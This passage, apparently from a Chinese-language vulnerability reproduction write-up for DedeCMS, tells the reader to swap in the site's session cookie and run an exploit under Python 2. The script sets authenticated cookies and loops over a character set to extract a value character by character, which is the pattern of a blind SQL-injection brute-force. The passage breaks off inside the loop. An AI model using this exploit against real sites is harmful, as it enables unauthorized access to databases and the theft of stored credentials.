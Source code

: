 <img src=".\图片\Snipaste_2023-05-07_18-27-55.png" alt="Snipaste_2023-05-07_18-27-55" style="zoom:67%;" />

### 跑exp

替换当前网站cookie后跑exp，python2 运行

```python
import urllib2
import time
opener = urllib2.build_opener()
opener.addheaders.append(('Cookie', 'PHPSESSID=thr71ua1g91j9d5lf79tr70ri1; DedeUserID=2; DedeUserID__ckMd5=6425e9e8f081fd4b; DedeLoginTime=1450059059; DedeLoginTime__ckMd5=0cae1010080d973a; last_vtime=1449818368; last_vtime__ckMd5=a8cc9e405d9da0bd; last_vid=tmdsb; last_vid__ckMd5=c6de842f1764c614'))
payloads = 'abcdefghijklmnopqrstuvwxyz0123456789@_.'
name = ""
 
for i in range(1,21):
 
    for p in payloads:
 
        s1 = "%s" %(i)
        s2 = "%s" %(ord(p))
 
```